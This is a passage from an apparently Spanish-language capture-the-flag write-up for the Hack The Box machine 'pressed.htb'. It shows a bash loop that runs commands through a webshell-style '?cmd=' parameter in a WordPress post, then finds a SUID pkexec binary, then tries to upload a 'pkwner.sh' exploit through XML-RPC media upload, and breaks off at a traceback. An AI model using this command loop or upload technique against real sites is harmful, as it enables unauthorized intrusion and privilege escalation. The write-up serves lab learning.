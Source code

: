 
```shell
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo....\n\n"
	exit 1
}

trap ctrl_c INT


url="http://pressed.htb/index.php/2022/01/28/hello-world/?cmd="

while [ "$command" != "exit" ] 
do	
	echo -n "$~ " && read -r command
	command="$(echo $command | tr ' ' '+')"
	curl -s -X GET "$url$command" | sed "s/<\/p>/\\n/" | grep "<pre>" -A 100 | grep "</pre>" -B 100 | sed "s/<pre>//" | sed "s/<\/pre>//"
done
```
Con esto pudimos enumerar mejor para poder encontrar una manera de elevar privilegios. En este punto encontramos que no podemos ver las reglas de iptables y que pkexec tiene permisos suid en la máquina.

```shell
iptables -L
Fatal: can't open lock file /run/xtables.lock: Permission denied

ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 23440 Jul 14  2021 /usr/bin/pkexec
```
Para que podamos subir el archivo que para que podamos abusar de psekec, podemos utilizar el mismo xmlrpc que tiene un apartado de media en el que nos permite subir archivos. Para esto hacemos lo siguiente.

```python
>>> from wordpress_xmlrpc.methods import posts
>>> from wordpress_xmlrpc.methods import media
>>> dir(media)
['AnonymousMethod', 'AuthenticatedMethod', 'Client', 'GetMediaItem', 'GetMediaLibrary', 'InvalidCredentialsError', 'ServerConnectionError', 'UnsupportedXmlrpcMethodError', 'UploadFile', 'WordPressMedia', 'XmlrpcDisabledError', 'XmlrpcMethod', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'collections', 'dict_type', 'sys', 'xmlrpc_client']
>>> with open("pkwner.sh", "r") as f:
...     filename = f.read()
```
Guardamos el archivo en la variable filename y después procedemos a crear otra variable que es la que va a tener los datos para subirlo.

```python
>>> uplodad_file = {'name':'pkwner.sh','bits':filename,'type':'text/plain'}
>>> client.call(media.UploadFile(uplodad_file))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/guero/.local/lib/python3.9/site-packages/wordpress_xmlrpc/base.py", line 37, in call
    raw_result = server_method(*args)
  File "/usr/lib/python3.9/xmlrpc/client.py", line 1116, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python3.9/xmlrpc/client.py", line 1456, in __request
    response = self.__transport.request(
  File "/usr/lib/python3.9/xmlrpc/client.py", line 1160, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python3.9/xmlrpc/client.py", line 1176, in single_request
    return self.parse_response(resp)
```